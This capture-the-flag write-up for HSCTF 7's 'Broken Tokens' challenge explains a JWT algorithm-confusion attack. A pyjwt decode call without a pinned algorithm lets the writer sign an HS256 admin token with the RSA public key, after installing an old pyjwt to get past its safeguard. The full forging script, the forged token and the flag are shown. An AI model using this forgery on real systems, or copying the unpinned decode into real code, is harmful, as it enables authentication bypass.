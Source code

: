 ```yaml
---
title: Broken Tokens
date: 2020-06-06
tags: web
ctf: HSCTF 7
slug: /ctf-writeups/broken-tokens
---
```

## Problem
```
I made a login page, is it really secure?

https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

The program also provided [main.py](./files/main.py) which appeared to be the code on the server.

## Solution
The page greets us with a web portal login, and a public key file ([publickey.pem](./files/publickey.pem)). Upon inspection, the login seemed to use server sided authentication. Trying to login with random credentials showed us a page stating ```Logged in as guest``` and left a cookie named ```auth```:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
```

The format appears to be a JWT token. Using a [web JWT tool](https://jwt.io/), we can decode the token to find more information. The header contains:
```
{
  "typ": "JWT",
  "alg": "RS256"
}
```
and there is a payload:
```
{
  "auth": "guest"
}
```

We need to create a modified JWT token that contained ```"auth": "admin"``` to gain access to the admin page, which contains the flag. The JWT token is signed using the RS256 algorithm, which is an asymmetric algorithm that uses a private and public keypair. Without any other vulnerabilities, we would need to bruteforce the private key in order to sign a modified token, which is practically impossible. Looking at the server code ([main.py](./files/main.py)), we can find some information about how the token is validated:

```
import jwt

with open("publickey.pem", "r") as f:
	PUBLIC_KEY = f.read()

def index():
	else:
		auth = request.cookies.get("auth")
		if auth is None:
			logged_in = False
			admin = False
		else:
			logged_in = True
			admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
		resp = make_response(
			render_template("index.html", logged_in=logged_in, admin=admin, flag=FLAG)
		)
	return resp
```
The server decodes the JWT token with the following line:
```
admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
```

Looking at the [pyjwt API reference](https://pyjwt.readthedocs.io/en/latest/api.html), we note that the implementation of jwt.decode() did not specify an algorithm. This means that we can attempt to create a JWT token using a different algorithm, such as HS256, which is a symmetric algorithm that uses a secret key to sign the JWT. pyjwt would then use the ```PUBLIC_KEY``` as the secret key. Since we know what ```PUBLIC_KEY``` is, we can easily create a valid token.

Copying the usage of pyjwt and opening publickey.pem in the exact same method (to prevent weird errors with newlines): ([brokentokens.py](./files/brokentokens.py))
```
import jwt

f = open("publickey.pem", "r")
PUBLIC_KEY = f.read()

key = jwt.encode({"auth": "admin"}, PUBLIC_KEY, algorithm="HS256")
print(key)
```

When attempting to run the code, we get an error:
```
"File "C:\Python38\lib\site-packages\jwt\algorithms.py", line 150, in prepare_key
    raise InvalidKeyError(
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret."
```

It seems like newer versions of pyjwt prevent signing JWT tokens with HMAC keys that are formatted as an RSA key. We can bypass this by installing an older version of pyjwt (<=0.4.3) where the exception was not implemented yet. After ```pip install pyjwt==0.4.3```, we get our new JWT token:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4
```

When we swap our cookie with the new JWT token, we are now logged in as admin and are greeted with the flag!

```
Logged in as admin
The flag is flag{1n53cur3_tok3n5_5474212}
```

**Flag:** ```flag{1n53cur3_tok3n5_5474212}```